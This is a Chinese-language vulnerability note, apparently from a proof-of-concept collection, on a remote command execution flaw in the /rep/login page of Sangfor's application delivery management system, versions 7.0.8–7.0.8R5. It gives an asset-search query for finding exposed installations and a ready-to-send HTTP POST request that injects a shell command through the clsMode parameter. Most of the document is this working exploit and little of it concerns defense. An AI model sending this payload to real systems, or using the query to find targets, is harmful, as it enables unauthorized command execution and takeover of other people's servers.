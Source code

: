 # 深信服应用交付管理系统rep/login远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">深信服应用交付管理系统login存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 深信服应用交付管理系统7.0.8-7.0.8R5

# 三、资产测绘
+ hunter`app.name="SANGFOR 深信服应用交付报表系统"`

![1692580728281-e2c427e5-64ba-4fda-80b8-5dcd4479adb2.png](./img/YVbx9nDj2BQqWKBd/1692580728281-e2c427e5-64ba-4fda-80b8-5dcd4479adb2-975958.png)

+ 登录页面

![1692580869733-49d82074-5a7c-4a29-9672-2f3b2f4b1557.png](./img/YVbx9nDj2BQqWKBd/1692580869733-49d82074-5a7c-4a29-9672-2f3b2f4b1557-185987.png)

# 四、漏洞复现
```plain
POST /rep/login HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 0s X 10.15: ry:109.0)Gecko/20100101 Firefox/115.0
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 118

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![1692581114528-027f3515-1f23-446c-8ae9-9200fcd494e7.png](./img/YVbx9nDj2BQqWKBd/1692581114528-027f3515-1f23-446c-8ae9-9200fcd494e7-240197.png)



> 更新: 2024-04-19 08:49:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nfnaaq9o1k6tgszw>